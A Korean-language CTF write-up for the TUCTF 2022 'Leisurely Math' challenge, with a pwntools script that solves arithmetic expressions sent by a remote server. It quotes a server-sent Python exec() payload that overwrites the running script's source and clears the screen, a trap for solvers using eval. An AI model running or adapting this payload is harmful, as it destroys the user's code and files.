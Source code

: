 ```yaml
---
layout: post
title: TUCTF | Leisurely Math
subtitle: 2022 TUCTF
categories: CTF
tags: [Programming]
---
```


**TUCTF is a jeopardy-style Capture the Flag (CTF) competition designed for all ranges of experience.**


**A jeopardy-style CTF is a CTF where you earn your team points for solving a challenge that's listed under a specific category with a specific point value.**

**The end goal of each challenge is usually to get a string of text called a flag that's usually in flag format.** 

**Our flag format looks something like this: TUCTF{3x4mpl3_fl4g}.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 풀이

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/205560652-a077dcac-3875-4d52-b7b3-7f74e251ee6e.png" width = 400>
</p>

연산의 속도를 향상시키라는 문제였습니다. 제공되는 파일이 없고 `nc`를 하면 연산 해야할 식이 나오고 답을 입력하는 칸이 있었습니다.

정답이면 `Correct!`, 오답이면 `Incorrect!`를 출력하고 다음 문제를 제공합니다.

해당 CTF의 카테고리가 **Programming**인 것을 감안하면 코딩 테스트의 느낌일 거라 생각하고 Exploit을 짰습니다.

문제를 진행하면서 같이 아래와 같은 문자열이 recv되었습니다.

```
230 4453 - 681 - 2447 * 5357 + 2341 * 4798
231 1994 - 9965 - 609 + 9135 * 7461 + 1190 - 583 - 429 + 6355 * 1415 - 4489
232 5199 * 7772 + 9975 - 9767 * 5763 + 4285 * 4026 + 3145 * 7783 + 2071 * 5615
233 exec('\nimport os\nscript_path = os.path.realpath( __file__ )\nnew_program = ""\nwith open( script_path, "r" ) as f:\n    lines = f.readlines()\n    for line in lines:\n        for char in line:\n            if char.isalpha():\n                new_program += chr( ord( char ) + 1 )\n            else:\n                new_program += char\nwith open( script_path, "w" ) as f:\n    f.write( new_program )\nos.system( "cls" )\nos.system( "clear" )\n')
```

233번째를 확인해보면 현재 경로에서 모든 값을 **+1**한 아스키로 변환하는 것을 확인 할 수 있다.

결국 진행중인 Exploit 코드를 망가뜨리는 트리거가 존재하는 것을 확인할 수 있었고, 해당 문자열이 나오는 경우 `continue`로 스킵했습니다.

## Exploit Logic

숫자와 사칙연산 기호만으로 이루어져 있으므로, 각각을 하나의 토큰으로 나눈다.

이에 **+, -**는 사칙연산의 우선 순위가 **\*, /**보다 낮으므로 계산을 하지 않고, 새로운 리스트에 하나씩 append한다.

> ex) 2053 - 2356 > lst = [2053, '-']

**\*, /**가 나오면 연산자 기준 `-1, +1`의 값을 연산하여 리스트에 append한다.

> ex) 25 * 4 > lst = [100]

하지만, **\*, /**의 연산자가 연속으로 나오게 된다면 연산자 기준 -1, +1에 값을 모두 연산하여 리스트에 넣었기에 이후의 연산자는 리스트에 들어간 값을 이용 해야 하므로 이를 확인할 수 있는 `tmp`라는 flag를 두었다.

_하지만, python에서 제공하는 `eval`를 사용한다면 쉽게 풀이가 가능하다..._

### Exploit

```python
from pwn import *

p = remote('chals.tuctf.com', 30202)

def calc(tokens):

    lst = []
    tmp = False # 이전 연산자 *, / check
    for i in range(1, len(tokens), 2):
        if tokens[i] == '+' or tokens[i] == '-':
            if tmp == False:
                lst.append(int(tokens[i-1]))
                lst.append(tokens[i])
                try:
                    not tokens[i+2]
                except IndexError:
                    lst.append(tokens[i+1])
            else:
                lst.append(tokens[i])
                tmp = False
                try:
                    not tokens[i+2]
                except IndexError:
                    lst.append(tokens[i+1])
        else:
            if tmp == False:
                tmp = True
                x = int(tokens[i-1])
                y = int(tokens[i+1])
                if tokens[i] == '*':
                    lst.append(x*y)
                else:
                    lst.append(x/y)
            else:
                x = int(lst[-1])
                y = int(tokens[i+1])
                lst.pop()
                if tokens[i] == '*':
                    lst.append(x*y)
                else:
                    lst.append(x/y)
    
    answer = lst[0]
    
    for i in range(1, len(lst), 2):
        if lst[i] == '+':
            answer += int(lst[i+1])
        else:
            answer -= int(lst[i+1])
    
    return answer


def main():
    i = 0
    while True:
   
        question = (p.recvline().rstrip(b'\n')).decode('utf-8')
        if question == 'Correct!':
            question = (p.recvline().rstrip(b'\n')).decode('utf-8')
            print(f'{i} {question}')

        if 'exec' in question:
            print('exec founded')
            continue
    
        i += 1    
        question = question.split(' ')
        answer = calc(question)
        p.sendlineafter('Answer: ',str(answer))

if __name__ == '__main__':
    main()

```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/205563137-8dffec0c-4b3b-401e-89fd-9840d0d917f3.png" width = 550>
</p>